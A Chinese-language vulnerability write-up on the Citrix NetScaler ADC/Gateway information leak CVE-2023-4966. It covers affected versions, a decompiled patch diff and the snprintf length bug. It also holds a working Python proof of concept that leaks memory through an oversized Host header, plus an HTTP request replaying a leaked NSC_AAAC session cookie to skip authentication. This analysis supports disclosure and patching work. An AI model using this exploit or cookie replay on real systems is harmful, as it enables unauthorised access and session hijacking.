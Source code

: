# Citrix NetScaler ADC & Gateway 信息泄露漏洞 CVE-2023-4966

# Citrix NetScaler ADC & Gateway 信息泄露漏洞 CVE-2023-4966

## 漏洞描述

NetScaler ADC和NetScaler Gateway是美国思杰（Citrix）公司的产品。Citrix Gateway是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。

在 Citrix 设备设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器的情况下，可以通过访问`/oauth/idp/.well-known/openid-configuration`路由并往 HOST字段发送大量数据从而泄露缓冲区信息，其中可能包含session cookie相关信息，攻击者可以借助该信息无需经过身份验证实现访问。

参考链接：

- https://xz.aliyun.com/t/13031

## 漏洞影响

```
NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50
NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15
NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19
NetScaler ADC 13.1-FIPS < 13.1-37.164
NetScaler ADC 12.1-FIPS < 12.1-55.300
NetScaler ADC 12.1-NDcPP < 12.1-55.300
```

## 漏洞复现

选择 NetScaler Gateway 的 13.1-49.15和13.1-48.47 两个版本进行分析，主要关注其 /netscaler/nsppe 二进制文件的相关补丁，该文件是 NetScaler 数据包处理引擎，它包含完整的 TCP/IP 网络堆栈以及多个 HTTP 服务。

通过分析，最终确定与漏洞相关的函数为：ns_aaa_oauth_send_openid_config和ns_aaa_oauthrp_send_openid_config

更新前后代码的主要差异如下：

```
# 更新前

iVar3 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
authv2_json_resp = 1;
iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,iVar3);
```


```
# 更新后

uVar7 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
uVar4 = 0x20;
if (uVar7 < 0x20000) {
    authv2_json_resp = 1;
    iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,uVar7);
    ...
}

```

该代码段落在访问 `/oauth/idp/.well-known/openid-configuration` 路由的时候将被调用，其逻辑是通过调用 snprintf()函数构造一个 json 数据并通过 ns_vpn_send_response() 函数形成http response 返回给用户，这个 json 数据中拼接了来自 http 请求的 **HOST 字段的数据**。

snprintf()函数虽然通过第二个参数限制了 print_temp_rule对应的字符串的最大长度，但是 snprintf()函数的返回值却是 完成 format 之后预期的 字符串的长度，也就是说即使第二个参数为 0x20000 ，snprintf()函数的返回值可以大于 0x20000。

ns_vpn_send_response()函数的第四个参数决定了读取的内存大小，这就意味着 紧跟在 print_temp_rule变量之后的缓冲区中的信息能够被带入 response 当中。

从上面的分析可以想到，攻击者能够在访问 /oauth/idp/.well-known/openid-configuration路由时往 Host字段插入大量数据，从而使得返回的response 中带上缓冲区信息，导致信息泄露。

poc：

```python
import requests
from urllib.parse import urljoin

url = "https://ip:port"

headers = {"Host": "a"*24578}
try:
    r = requests.get(urljoin(url,"/oauth/idp/.well-known/openid-configuration"), headers=headers, verify=False,timeout=10)
    print(r.status_code)
    if len(r.content) > 0:
        with open("resp.txt","wb") as f:
            f.write(r.content)
except Exception as e:
    print(e)

```

在 response 中可能会包含 长度为 65 或 32 的 session cookie ，比如：

```
5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
```

攻击者可以借助该信息无需经过身份验证实现系统的访问：

```
GET /logon/LogonPoint/Authentication/GetUserName HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: NSC_AAAC=5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

## 漏洞修复

官方最新版本已修复此漏洞。下载地址为：

- [https://www.citrix.com/downloads/citrix-adc/](https://www.citrix.com/downloads/citrix-adc/)

